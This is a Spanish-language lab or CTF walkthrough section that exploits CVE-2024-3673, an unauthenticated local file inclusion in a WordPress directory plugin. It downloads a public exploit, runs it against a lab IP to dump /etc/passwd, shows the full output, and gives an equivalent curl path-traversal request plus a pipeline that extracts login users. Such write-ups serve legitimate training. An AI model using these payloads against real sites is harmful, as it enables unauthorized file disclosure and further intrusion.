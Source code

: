 
<h2 id="Exploit">Probando Exploit de GitHub: CVE-2024-3673 y Fuerza Bruta al Servicio SSH</h2>

Después de investigar un poco, encontramos un Exploit para el **plugin web-directory-free versión 1.7.2**. 

Dicho Exploit se aprovecha de la vulnerabilidad **Local File Inclusión (LFI)** encontrada en esta versión sin necesidad de estar autenticados.

Aquí la puedes encontrar:
* <a href="https://github.com/Nxploited/CVE-2024-3673" target="_blank">Repositorio de Nxploited: CVE-2024-3673</a>

Descarguémoslo con **wget**:
```bash
wget https://raw.githubusercontent.com/Nxploited/CVE-2024-3673/refs/heads/main/CVE-2024-3673.py
chmod +x CVE-2024-3673.py
```

En el repositorio tenemos un ejemplo de uso, así que apliquémoslo:
```bash
python3 CVE-2024-3673.py --url http://192.168.100.40/wordpress --file ../../../../../etc/passwd
Checking if the site is vulnerable...
The site is vulnerable. Attempting to exploit the vulnerability...
Exploit successful. Extracted content:
{"html":"root:x:0:0:root:\/root:\/bin\/bash\ndaemon:x:1:1:daemon:\/usr\/sbin:\/usr\/sbin\/nologin\nbin:x:2:2:bin:\/bin:\/usr\/sbin\/nologin\nsys:x:3:3:sys:\/dev:\/usr\/sbin\/nologin\nsync:x:4:65534:sync:\/bin:\/bin\/sync\ngames:x:5:60:games:\/usr\/games:\/usr\/sbin\/nologin\nman:x:6:12:man:\/var\/cache\/man:\/usr\/sbin\/nologin\nlp:x:7:7:lp:\/var\/spool\/lpd:\/usr\/sbin\/nologin\nmail:x:8:8:mail:\/var\/mail:\/usr\/sbin\/nologin\nnews:x:9:9:news:\/var\/spool\/news:\/usr\/sbin\/nologin\nuucp:x:10:10:uucp:\/var\/spool\/uucp:\/usr\/sbin\/nologin\nproxy:x:13:13:proxy:\/bin:\/usr\/sbin\/nologin\nwww-data:x:33:33:www-data:\/var\/www:\/usr\/sbin\/nologin\nbackup:x:34:34:backup:\/var\/backups:\/usr\/sbin\/nologin\nlist:x:38:38:Mailing List Manager:\/var\/list:\/usr\/sbin\/nologin\nirc:x:39:39:ircd:\/run\/ircd:\/usr\/sbin\/nologin\n_apt:x:42:65534::\/nonexistent:\/usr\/sbin\/nologin\nnobody:x:65534:65534:nobody:\/nonexistent:\/usr\/sbin\/nologin\nsystemd-network:x:998:998:systemd Network Management:\/:\/usr\/sbin\/nologin\nmessagebus:x:100:107::\/nonexistent:\/usr\/sbin\/nologin\nsshd:x:101:65534::\/run\/sshd:\/usr\/sbin\/nologin\ndebian:x:1000:1000:debian,,,:\/home\/debian:\/bin\/bash\nmysql:x:102:110:MySQL Server,,,:\/nonexistent:\/bin\/false\nprimo:x:1001:1001::\/home\/primo:\/bin\/bash\npremo:x:1002:1002::\/home\/premo:\/bin\/bash\n","hash":"91d75cb01d4a5d829e86bca1858566db","map_markers":"","map_listings":"","hide_show_more_listings_button":1,"sql":"","params":"","base_url":"http:\/\/torrija.thl\/wordpress"}
```
Excelente, funcionó.

Si analizamos el Exploit, podemos replicar el ataque con **curl** haciendo una **petición POST**:
```bash
curl -s -X POST 'http://192.168.100.40/wordpress/wp-admin/admin-ajax.php' -d 'from_set_ajax=1&action=w2dc_controller_request&template=../../../../../etc/passwd'
```

Aplicando unas **expresiones regex** con **sed** y recortando un poco el resultado con **grep** y **curl**, podemos obtener solamente los usuarios de la máquina víctima:
```bash
curl -s -X POST 'http://192.168.100.40/wordpress/wp-admin/admin-ajax.php' -d 'from_set_ajax=1&action=w2dc_controller_request&template=../../../../../etc/passwd' | sed -E 's/\\\//\//g; s/\\n/\n/g; s/.*"html":"//; s/","hash".*//' | grep 'bash' | cut -d: -f1
root
debian
primo
premo
```
Puedes guardarlos en un archivo de texto.
